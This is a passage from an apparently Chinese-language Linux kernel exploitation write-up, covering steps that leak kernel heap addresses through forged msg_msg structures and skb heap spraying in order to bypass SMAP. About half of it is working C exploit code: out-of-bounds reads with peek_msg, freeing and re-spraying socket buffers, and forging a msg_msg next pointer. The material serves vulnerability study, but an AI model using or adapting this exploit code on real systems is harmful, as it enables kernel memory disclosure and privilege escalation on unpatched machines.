 **2.3.3 泄露相邻辅助消息-&gt;主消息的堆地址**

在skb堆喷并伪造辅助消息中发现m_ts可控，也就是说我们可以通过控制m_ts让内核将与该辅助消息相邻的辅助消息纳入消息缓冲区中，当读取该伪造辅助消息时，可以将相邻辅助消息的消息头泄露出来

泄露相邻辅助的哪个成员：辅助消息的msg_msg-&gt;list_head-&gt;next指向主消息即内核堆地址，所以可以作为泄露对象。

至此成功泄露相邻辅助消息-&gt;主消息的堆地址

```
// Use the fake secondary message to read out-of-bounds.
  printf("[*] Leaking adjacent secondary message...\n");
  if (peek_msg(msqid[fake_idx], &amp;msg_fake, sizeof(msg_fake), 1) &lt; 0)
    goto err_rmid;

  // Check if the leak is valid.
  if (*(int *)&amp;msg_fake.mtext[SECONDARY_SIZE] != MSG_TAG) `{`
    printf("[-] Error could not leak adjacent secondary message.\n");
    goto err_rmid;
  `}`

  // The secondary message contains a pointer to the primary message.
  msg = (struct msg_msg *)&amp;msg_fake.mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
  kheap_addr = msg-&gt;m_list_next;
  if (kheap_addr &amp; (PRIMARY_SIZE - 1))
    kheap_addr = msg-&gt;m_list_prev;
  printf("[+] kheap_addr: %" PRIx64 "\n", kheap_addr);
```

**2.3.4 泄露fake辅助消息的堆地址**

以上可以获得与fake辅助消息相邻辅助消息-&gt;主消息的堆地址，将此地址填充为msg_msg-&gt;next，释放skb后，重新填充，那么此时fake辅助消息的msg_msg-&gt;next为相邻辅助消息-&gt;主消息的堆地址，内核会认为该主消息为fake辅助消息的一部分(如果msg_msg不足以容纳全部消息则为msg_msg-&gt;next开辟空间后继续容纳剩余消息)

一次性读取大量fake辅助消息，内核会从msg_msg-&gt;next中继续读取消息，由此实现对于主消息头的泄露，主消息头中的msg_msg-&gt;list_head-&gt;next指向与之对应的辅助消息，即与fake辅助消息相邻的辅助消息，该内存减去1024(辅助消息结构体大小)后，得到fake辅助消息真实地址

至此，获得fake辅助消息真实地址，此时再次释放skb，并将fake辅助消息真实地址填充为msg_msg-&gt;list_head-&gt;next，即可在释放此辅助消息时绕过smap

```
printf("[*] Freeing fake secondary messages...\n");
  free_skbuff(ss, secondary_buf, sizeof(secondary_buf));

  // Put kheap_addr at next to leak its content. Assumes zero bytes before
  // kheap_addr.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
                sizeof(msg_fake.mtext), kheap_addr - MSG_MSGSEG_SIZE);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) &lt; 0)
    goto err_rmid;

  // Use the fake secondary message to read from kheap_addr.
  printf("[*] Leaking primary message...\n");
  if (peek_msg(msqid[fake_idx], &amp;msg_fake, sizeof(msg_fake), 1) &lt; 0)
    goto err_rmid;

  // Check if the leak is valid.
  if (*(int *)&amp;msg_fake.mtext[PAGE_SIZE] != MSG_TAG) `{`
    printf("[-] Error could not leak primary message.\n");
    goto err_rmid;
  `}`

  // The primary message contains a pointer to the secondary message.
  msg = (struct msg_msg *)&amp;msg_fake.mtext[PAGE_SIZE - MSG_MSG_SIZE];
  kheap_addr = msg-&gt;m_list_next;
  if (kheap_addr &amp; (SECONDARY_SIZE - 1))
    kheap_addr = msg-&gt;m_list_prev;

```